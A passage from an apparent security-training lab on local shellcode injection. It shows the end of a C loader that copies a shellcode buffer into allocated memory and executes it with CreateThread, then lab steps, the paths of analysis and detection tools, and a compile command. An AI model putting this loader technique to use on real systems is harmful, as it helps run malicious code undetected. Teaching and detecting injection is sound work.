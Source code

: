```c
    }

    printf("Press any key to copy shellcode . . .\n");

    getchar();

    if(!RtlMoveMemory(lpAlloc, shellcode, sizeof(shellcode))) {
        printf("Shellcode copied\n");
        return 1;
    }

    HANDLE hThread = CreateThread(NULL, 0, (LPTHREAD_START_ROUTINE)lpAlloc, NULL, 0, NULL);

    if (hThread == NULL) {
        printf("CreateThread failed\n");
        return 1;
    }

    DWORD tid = GetThreadId(hThread);
    printf("[!] Local thread created with TID: %lu\n", tid);
    printf("[!] Local thread start address: 0x%p\n", lpAlloc);
    printf("[+] Shellcode injected successfully.\n");

    WaitForSingleObject(hThread, INFINITE);

    return 0;
}

```

Let's navigate to the bottom of this section and click on " `Click here to spawn the target system!`". Then, let's RDP into the Target IP using the provided credentials. The vast majority of the actions/commands covered from this point up to end of this section can be replicated inside the target, offering a more comprehensive grasp of the topics presented.

Within the target (VM), we can locate the samples and tools at the following paths:

- **x64dbg**: `C:\injection\tools\x64dbg\release\x64\x64dbg.exe`
- **ProcessHacker**: `C:\injection\tools\ProcessHacker\ProcessHacker.exe`
- **Moneta**: `C:\injection\tools\Moneta64.exe`
- **PE Sieve**: `C:\injection\tools\pe-sieve64.exe`
- **Local Injection**: `C:\injection\local\local_shellcode_inj.exe`

* * *

## Compilation of Code

We can compile this code using the command mentioned below:

```cmd-session
C:\> x86_64-w64-mingw32-gcc C:\injection\source_code\local_shellcode_inj.c -o C:\injection\source_code\local_shellcode_inj.exe -m64

```
